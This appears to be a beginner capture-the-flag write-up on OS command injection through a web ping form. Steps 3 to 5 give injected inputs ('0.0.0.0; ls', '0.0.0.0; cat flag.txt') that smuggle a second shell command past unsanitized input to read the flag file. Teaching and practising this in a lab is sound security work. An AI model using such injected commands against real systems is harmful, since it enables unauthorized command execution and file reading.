




# InputInjection | Difficulty: Easy

## Requirements:

- Basic knowledge of Linux commands e.g. ping, ls, cat
- Basic knowledge of how input is handled (poorly) for Web Development


---

## Steps:

1. Try pinging `0.0.0.0` and see what is displayed.

   

   

2. Realize how the input is being used.

   ```bash
   # Psuedo code
   input = Input()

   # In some terminal enviroment
   $ ping input
   ```

3. Exploit the unsanitized input.

   ```bash
   # Psuedo code
   $ ping input

   # We can end the ip command and use our own commands after that

   input = 0.0.0.0; ls

   $ ping input --> ping 0.0.0.0; ls
   ```

   `ls` is a linux command to list directories. It will list all contents of the directory.

4. Enter `0.0.0.0; ls` and see what is displayed.

   

5. Use `cat` to view the contents of the flag.txt file.

   Enter `0.0.0.0; cat flag.txt` and view what is displayed.

   

   `cat` is a linux command to print the contents of a file onto the standard output stream.
